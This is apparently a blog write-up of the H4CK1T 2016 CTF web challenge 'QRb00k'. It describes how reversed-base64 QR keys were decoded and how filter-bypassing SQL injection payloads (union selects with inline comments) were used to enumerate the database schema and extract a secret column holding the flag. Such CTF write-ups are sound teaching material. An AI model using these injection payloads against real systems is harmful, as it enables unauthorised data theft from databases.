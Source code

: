 ```yaml
---
title: '[H4CK1T 2016] QRb00k – Russia Writeup'
author: Megabeets
type: posts
date: 2016-10-03T00:35:37+00:00

categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

<img src="./h4ck1t_russia_1.png" /> 

We got a QR code which is the key to read our message:

<img src="./h4ck1t_russia_2.png" /> 

Now let&#8217;s read the message using the QR code:

<img src="./h4ck1t_russia_3.png" /> 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

<img src="./h4ck1t_russia_4.png" /> 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

```python
>>> "==QehRXS"[::-1].decode('base64')
'Itay'
```


Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

<img src="./h4ck1t_russia_5.png" /> 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

```mysql
'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets
```


<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<img src="./h4ck1t_russia_6.png" /> 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

```mysql
'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_7.png" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

```mysql
'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_8.png" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂



 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/